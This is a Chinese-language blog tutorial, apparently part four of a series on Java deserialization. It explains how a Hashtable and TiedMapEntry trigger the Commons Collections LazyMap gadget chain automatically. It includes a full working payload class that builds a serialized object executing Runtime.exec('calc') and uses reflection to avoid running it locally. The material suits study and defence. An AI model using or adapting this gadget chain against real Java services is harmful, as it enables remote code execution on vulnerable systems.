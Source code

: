 ```yaml
---
layout: post
title: 'JAVA反序列化四'
subtitle: '自动调用'
date: 2021-09-18
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全
---
```


在JAVA序列化三中，我们是采用了手动的方式调用lazyMap.get("");

那如何进行自动调用呢？

寻找在readObject时可自动调用Map.get("xx")的类

![](https://1024861435.github.io/assets/img/JAVA反序列化四1.png)

可以看到图中有三个方法可以调用到Map.get("xx")

为啥是找map.get()?

	LazyMap.get是我们触发的入口，那么只要有接受我们的LazyMap，然后再调用此map的get方法就可以成功触发

	TiedMapEntry虽好，但是这个也没触发，因为他没有在readObject的时候调用，当在readObject的时候调用，我们才能让他自动执行，我们再找其他类调用了这个它的

那么又要知道又有谁可以调用这个三个方法呢？

Hashtable在readObject时存在调用HashCode

![](https://1024861435.github.io/assets/img/JAVA反序列化四2.png)

怎么写漏洞代码呢？

![](https://1024861435.github.io/assets/img/JAVA反序列化四3.png)

![](https://1024861435.github.io/assets/img/JAVA反序列化四4.png)

如果向上面那样写的话，会直接在本地执行，并不能产生序列化的数据

在put调用时直接本地执行了，那么如何防止本地执行，且能够序列化数据呢，
	
	反射

最终payload

	import org.apache.commons.collections.Transformer;
	import org.apache.commons.collections.functors.ChainedTransformer;
	import org.apache.commons.collections.functors.ConstantTransformer;
	import org.apache.commons.collections.functors.InvokerTransformer;
	import org.apache.commons.collections.keyvalue.TiedMapEntry;
	import org.apache.commons.collections.map.LazyMap;
	
	import javax.xml.crypto.dsig.Transform;
	import java.io.*;
	import java.lang.reflect.Field;
	import java.util.HashMap;
	import java.util.Hashtable;
	import java.util.Map;
	
	public class cusCC {
	    public static void main(String[] args) throws NoSuchMethodException, IllegalAccessException, IOException, ClassNotFoundException, NoSuchFieldException {
	        Transformer[] transforms=new Transformer[]{
	                new ConstantTransformer(Runtime.class),
	                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}),
	                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[0]}),
	                new InvokerTransformer("exec",new Class[]{String.class},new String[]{"calc"})
	        };
	        Transformer transformChain = new ChainedTransformer(transforms);
	        Map innermap = new HashMap();
	        Map lazyMap = LazyMap.decorate(innermap,transformChain);
	//        lazyMap.get("");
	
	        TiedMapEntry entry = new TiedMapEntry(lazyMap,"foo");
	        Hashtable hashtable = new Hashtable();
	        hashtable.put("123","ds");
	        Field table = hashtable.getClass().getDeclaredField("table");
	
	        table.setAccessible(true);
	        Object[] hasharray = (Object[])table.get(hashtable);
	
	        for (Object obj:hasharray){
	            if(obj != null){
	                Field entrykey = obj.getClass().getDeclaredField("key");
	                entrykey.setAccessible(true);
	                entrykey.set(obj,entry);
	            }
	        }
	
	        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cuscc.ser"));
	        oos.writeObject(hashtable);
	        oos.close();
	
	
	        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("cuscc.ser"));
	        ois.readObject();
	        ois.close();
	
	
	    }
	}

我们在hashtable.put()时不要直接传入entry

![](https://1024861435.github.io/assets/img/JAVA反序列化四5.png)

table其实就是hashtable的一个私有变量，存的就是hashtable的数据。本身我们就是要hashtable.put进去一个数据，所以我们先反射拿到hashtable的数据，又table本身是私有变量所以通过table.setAccessible(true)设置成可以访问的

Object[] hasharray = (Object[])table.get(hashtable)然后通过这一步，用get使table得到真正的hashtable的值并赋值给对象hasharray

![](https://1024861435.github.io/assets/img/JAVA反序列化四6.png)

hashtable本身有很多数据而且大部分多少null所以先for循环找到不是null的对象

从这里可以看出hashtable本身就是一个键值对，所以通过getClass().getDeclaredField("key")的方法拿到他的key

然后通过entrykey.set(obj,entry)把entry设置进入hashtable里面，并且对hashtable进行序列化

> 运行结果

![](https://1024861435.github.io/assets/img/JAVA反序列化四7.png)

成功执行反序列化
